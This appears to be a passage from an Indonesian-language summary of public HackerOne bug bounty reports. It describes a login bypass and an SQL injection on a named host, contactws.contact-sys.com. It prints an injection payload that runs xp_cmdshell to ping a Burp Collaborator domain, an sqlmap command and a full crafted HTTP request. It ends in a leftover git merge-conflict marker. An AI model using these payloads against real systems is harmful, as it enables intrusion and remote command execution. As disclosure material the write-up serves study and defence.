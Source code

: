 ```
g-recaptcha-response=555&log=sample@mail.tst&pwd=g00dPa%24%24w0rD&redirect_to=https://www.acronis.cz/wp-admin/&rememberme=forever&testcookie=1&wp-submit=P%C5%99ihl%C3%A1sit%20se
```

impact :

attacker berhasil melakukan **Bypass di sistem aplikasi** yang mengakibatkan kebocoran database pada aplikasi tersebut.

### #816254 SQL injection on contactws.contact-sys.com in TScenObject action ScenObjects leads to remote code execution

sumber : https://hackerone.com/reports/816254

attacker menemukan sebuah dokumentasi API **TScenObject**, yang isinya kalau **ExpectSigned="No"** tidak memerlukan autentikasi, kemudian attacker membuat sebuah payload seperti dibawah ini :

```
SELECT *  FROM tblName WHERE id=<inject> order by STEP;
```

33; DECLARE @command varchar(255); SELECT @command='ping yhjbc2mndl88o89il3ueyud7zy5pte.burpcollaborator.net'; EXEC Master.dbo.xp_cmdshell @command; SELECT 1 as 'STEP'
``

untuk memastikan bahwa betul website ini rentan terhadap **SQLI** `sqlmap -r sqlitest.txt --batch --current-db --force-ssl`

```http
POST / HTTP/1.1
Host: contactws.contact-sys.com:3456
Content-Type: application/xml
Content-Length: 185

<REQUEST OBJECT_CLASS="TScenObject" ACTION="ScenObjects" SCEN_ID="33*" ExpectSigned="No" INT_SOFT_ID="DA61D1CE-757F-44C3-B3F7-11A026C37CD4" POINT_CODE="tzhr" lang="en"></REQUEST>
```

<<<<<<< HEAD
![sqli](https://drive.google.com/uc?id=1nzXJI0ZSnorUXlnuWzvy7z-9yc4TE0w7)
=======